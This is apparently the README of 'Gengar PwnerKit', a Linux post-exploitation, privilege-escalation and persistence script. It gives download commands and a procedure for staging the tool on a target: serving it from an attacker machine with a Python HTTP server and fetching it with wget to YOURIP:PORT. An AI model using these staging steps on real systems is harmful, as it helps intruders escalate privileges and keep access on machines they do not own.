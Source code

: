 # Gengar PwnerKit
> ## | Post Exploration | Privilege Escalation | Persistence |
> 
>                  ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)
>
> ---

> ## How to install?
> ### Wget:
> ```
> wget -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk.sh -O gpk ; chmod +x gpk
> ```
> ### Curl: 
> ```
> curl -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk.sh -o gpk ; chmod +x gpk
> ```
> ---

> ## How to upload to targets machine?
> ### 1. Download the GPK
> ### 2. Attacker Machine:  
> ```
> python3 -m http.server PORT
> ``` 
> ### 3. Target Machine:
> ```
> wget YOURIP:PORT/gpk ; chmod +x gpk
> ```
> ---

> ## GPK uses these other scripts
> ### ➫ [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
> ### ➫ [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)
> ---
